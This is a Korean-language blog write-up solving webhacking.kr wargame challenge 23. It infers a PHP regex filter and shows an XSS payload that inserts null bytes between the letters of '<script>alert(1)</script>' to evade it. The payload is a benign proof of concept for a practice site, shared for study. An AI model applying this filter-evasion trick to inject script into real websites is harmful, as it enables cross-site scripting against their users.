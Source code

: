 ```yaml
---
title: "[webhacking.kr] 23번 문제 풀이[php]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - php
toc: true
toc_sticky: true
toc_label: "23번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 23번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/150950543-c6e912ce-e97b-40e6-bf4f-19cb15ac52c5.png)

## 문제 풀이
  입력 칸에 여러 단어를 입력해 보면서 무엇이 필터링 되는지 먼저 확인합니다.

  몇개의 단어를 입력해보니 php 서버에는 다음과 같이 처리 되는 것 같습니다.

  ```php
  if (preg_match('/[A-Za-z]{2,}/', $_GET['code'])) {
      echo "no hack <br>";
  } else {
      echo "{$_GET['code']}<br>";
  }
  ```

  숫자를 제외하고 문자를 2개 연속 입력하면 no hack을 출력하는 로직입니다. 그리고 몇개를 테스트 해보니 preg_match 부분은 문자열 중간에 null byte(0x00)를 끼워 넣으면 다르게 판단 합니다.

  ex)
  admin != ad%00min

  이를 이용해서 입력할 ```<script> alert(1); </script>``` 중간중간에 preg_match 에 의해서 필터링 되지 않도록 null byte를 넣어줍니다.

  ```<s%00c%00r%00i%00p%00t>a%00l%00e%00r%00t(1);</s%00c%00r%00i%00p%00t>```


  ![image](https://user-images.githubusercontent.com/33647663/150971471-87e799de-7864-4988-b4d1-8dfb32b1de88.png)
  


